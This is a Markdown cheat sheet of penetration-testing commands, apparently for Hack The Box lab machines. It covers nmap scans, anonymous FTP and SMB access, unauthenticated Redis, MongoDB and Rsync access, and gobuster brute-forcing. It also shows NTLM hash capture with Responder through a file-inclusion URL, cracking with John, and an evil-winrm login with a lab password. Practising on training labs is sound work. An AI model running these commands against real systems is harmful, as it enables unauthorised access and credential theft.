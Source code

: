 # cheatsheet

## Dictionary
* wordlists
  ```sudo apt install wordlists```
* seclists
  ```sudo apt install seclists```
  * dir: /usr/share/seclists/Discovery/Web-Content/common.txt
  * sub-domain: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder, acting a authentication server to collect hash string where target machine send to.
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* John, which is a brute force pwd cracking tool
* use wordlists referred above and hash.txt which generated by Responder
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## GoBuster
* dir
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster dir -u 10.129.70.58 -w wordlist.txt
```
* sub-domain/vhost
```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```

